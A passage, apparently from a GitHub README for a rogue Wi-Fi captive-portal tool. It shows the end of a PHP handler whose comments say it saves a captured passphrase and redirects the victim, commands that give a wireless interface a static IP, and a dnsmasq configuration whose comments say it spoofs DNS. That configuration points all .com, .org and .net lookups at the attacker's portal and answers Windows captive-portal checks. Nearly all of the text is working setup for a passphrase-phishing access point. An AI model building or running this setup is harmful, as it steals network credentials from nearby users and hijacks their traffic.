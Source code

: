 ```bash
  # Save the passphrase and redirect the user to the success page
  @rename($wordlist_path, $success_path);

  header('Location: index.php?success');
} else {
  # Delete temporary file and redirect user back to login page
  @unlink($wordlist_file);

  header('Location: index.php?failure');
}
?>
```

-----------------------

# Networking setup

Setting a static IP to our interface
```bash
sudo ip addr add 192.168.87.1/24 dev wlan0
sudo ip link set wlan0 up
```

Set DNS on file mco-dnsmasq.conf
```bash
# Install dnsmasq if not installed
sudo apt install dnsmasq

------File-Content-------

# Main options
# http://www.thekelleys.org.uk/dnsmasq/docs/dnsmasq-man.html
domain-needed
bogus-priv
no-resolv
filterwin2k
expand-hosts
domain=localdomain
local=/localdomain/
# Only listen on this address. When specifying an
# interface, it also listens on localhost.
# We don't want to interrupt any local resolution
# since the DNS responses will be spoofed
listen-address=192.168.87.1

# DHCP range
dhcp-range=192.168.87.100,192.168.87.199,12h
dhcp-lease-max=100

# This should cover most queries
# We can add 'log-queries' to log DNS queries
address=/com/192.168.87.1
address=/org/192.168.87.1
address=/net/192.168.87.1

# Entries for Windows 7 and 10 captive portal detection
address=/dns.msftncsi.com/131.107.255.255
```
